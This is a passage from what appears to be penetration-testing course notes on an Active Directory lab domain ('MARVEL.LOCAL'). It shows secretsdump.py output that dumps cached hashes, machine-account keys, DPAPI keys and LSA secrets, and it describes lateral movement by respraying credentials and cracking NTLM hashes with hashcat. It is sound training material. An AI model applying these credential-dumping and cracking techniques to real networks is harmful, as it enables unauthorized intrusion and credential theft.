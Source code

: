 ```
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2025-08-03 18:38:30)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
MARVEL\SPIDERMAN$:aes256-cts-hmac-sha1-96:a521036c562ddfa01bd87fc45e81b1f4d6a0bf674b909e327b3298f94198a67d
MARVEL\SPIDERMAN$:aes128-cts-hmac-sha1-96:b4267987932dc7019749ce01fffaab6c
MARVEL\SPIDERMAN$:des-cbc-md5:801cc729baf72994
MARVEL\SPIDERMAN$:plain_password_hex:660057005d004c0024007a0073006e0053005d00760024004c002a0056005b004b0056002e0037002b00570045003a00460048002f002300450038003a0023004400480051005e006400290077003f00790021003f00200040004e005c003a0020004f00230067005700380070007900680043003f006400220032005e0054005d00710058003d006d007400280031006a005300710041002a00360064007900700032003800610064002d0030006500620042004a0077005d0056003e00320039006e006c002300750056004b005a005700220079004d004000380065006300760031006a006b0036003e0035007a00
MARVEL\SPIDERMAN$:aad3b435b51404eeaad3b435b51404ee:1328c537e4ddf842c1456e4176112fdb:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc71286b734103cf91be8d2bb827f71564bd9670a
dpapi_userkey:0xb82bb65959427b2dcf15e8f26a5783149513427d
[*] NL$KM 
 0000   2E 5E FC 95 C5 DB 94 06  3F 3B 4E DD D6 53 C4 66   .^......?;N..S.f
 0010   4E A3 8C A1 CF E3 0A 5E  AE 8A BC 67 39 2B 5D 5F   N......^...g9+]_
 0020   7D EA C8 60 3B D4 04 FB  A0 C9 63 74 79 3B E1 BE   }..`;.....cty;..
 0030   83 46 B3 DC E8 91 8F 49  B9 6F 4E 6F 42 EC 4C FF   .F.....I.oNoB.L.
NL$KM:2e5efc95c5db94063f3b4eddd653c4664ea38ca1cfe30a5eae8abc67392b5d5f7deac8603bd404fba0c96374793be1be8346b3dce8918f49b96f4e6f42ec4cff
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

The workflow for lateral movement using `secretsdump.py` is as follows. It does
not require to crack a password at all. The key of the lateral movement is
**lateral - lateral - lateral**, until we find a way for vertical movement.
Always respray found credentials and check if we can find new avenues!

<img src="./images/4_Dumping_and_Cracking_Hashes_1.png" alt="Lateral Movement wiht secretsdump.py" width="800"/>



**Cracking passwords with `hashcat`**

We can copy the NT portion of an `NTLM` hash (the 2nd part of it), store it in
a file and try to crack it with `hashcat`.

<img src="./images/4_Dumping_and_Cracking_Hashes_2.png" alt="Cracking the NTLM
hash" width="800"/>
